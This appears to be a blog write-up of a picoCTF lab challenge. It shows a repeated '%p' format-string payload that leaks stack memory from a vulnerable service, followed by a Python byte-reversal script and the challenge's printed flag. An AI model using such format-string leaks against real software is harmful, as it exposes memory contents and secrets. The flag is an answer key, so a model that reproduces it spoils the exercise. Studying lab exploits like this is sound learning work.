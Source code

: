 ```yaml
---
title: 'vuln.c nc mercury.picoctf.net 59616'
description: 'vuln.c nc mercury.picoctf.net 59616'
pubDate: 'Apr 16 2024'
heroImage: 'https://raw.githubusercontent.com/vitalik-hakim/TABLES404/main/error_b/c%23.png'
category: 'csharp'
tags: [c#]
---
```


**The solution for this is noted below**

## vuln.c nc mercury.picoctf.net 59616

### Solution

```csharp
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p

Buying stonks with token:
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d

Portion after (nil)
8b9418028b953708b953906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ffbd007d

Use HxD to get
‹”��‹•7�¹S�ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}

string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}"
out = ""
temp = ""
index = 0
for char in string:
  temp += char
  index += 1
  if index%4 == 0:
      fwd = ""
      for temp_char in temp:
        fwd = temp_char + fwd
      out += fwd
      temp = ""


print(out)

prints out picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}�½ÿ
Flag: picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
```

**Try other methods by searching on the site. That is if this doesn't work**
